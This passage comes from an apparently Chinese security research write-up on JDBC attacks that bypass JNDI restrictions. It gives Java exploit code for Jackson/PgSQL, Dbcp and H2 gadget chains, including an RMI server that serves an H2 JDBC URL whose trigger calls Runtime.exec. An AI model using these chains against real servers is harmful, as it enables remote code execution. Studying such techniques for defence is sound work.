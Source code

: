 对于 PgSQL 使用 Jackson 链时，会遇到一个如下的报错：

 ![](/attachments/2024-07-24-jdbc-attack-jndi-bypass/aac2f60a-7994-4b35-8667-bdcfd3edba5b.png)

这是因为 Jackson 在处理 getter 时不区分大小写，将 PgSQL 的两个 getter 识别为冲突，为了解决这个问题，我们同样可以使用 aop 代理的方法，套一层 DataSource 的接口类来解决，即 Payload 的该部分。

```java
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(dataSource);
Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler)  constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{DataSource.class}, handler);
```

同时，这里使用的 HotSwappableTargetSource 与 XString 的利用，也是由于高版本 JDK 不支持 BadAttributeValueExpException 而做出的替换，该利用是可以在高版本 JDK 直接使用的。

### 4.2 Dbcp H2

对于 Dbcp H2 我们可以进行如下利用，将 Jackson 链中 POJONode 的参数的 dataSource 替换为如下代码：

```java
String command = "rmi://127.0.0.1:1099/Exploit";
SharedPoolDataSource dataSource = new SharedPoolDataSource();
dataSource.setDataSourceName(command);
```

同时构造如下的高版本 JDK 可用的 rmi server，并将其设置为 dataSource 的 URL 来进行请求。

```java
Registry registry = LocateRegistry.createRegistry(rmi_port);
ResourceRef ref = new ResourceRef(
        "javax.sql.DataSource",
        null,
        "", "", true,
        "org.apache.commons.dbcp2.BasicDataSourceFactory",
        null);
String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
        "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
        "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
        "$$\n";
ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
ref.add(new StringRefAddr("url",JDBC_URL));
ref.add(new StringRefAddr("username","root"));
ref.add(new StringRefAddr("password","password"));
ref.add(new StringRefAddr("initialSize","1"));
```

### 4.3 C3p0 H2
